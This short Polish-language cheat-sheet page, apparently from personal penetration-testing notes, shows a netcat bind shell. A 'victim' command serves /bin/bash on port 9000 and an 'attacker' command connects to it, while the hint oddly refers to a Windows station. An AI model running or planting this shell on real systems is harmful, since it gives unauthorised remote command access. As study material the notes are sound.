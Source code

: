 ```yaml
---
layout:
  title:
    visible: false
  description:
    visible: false
  tableOfContents:
    visible: false
  outline:
    visible: false
  pagination:
    visible: false
---
```


# NetCat Kali

{% hint style="info" %}
To stacja z Windowsem nasłuchuje, a atakujący się tam podłącza
{% endhint %}

ofiara

```
nc -nlvp 9000 -e /bin/bash
```

atakujący

```
nc 127.0.0.1 9000
```
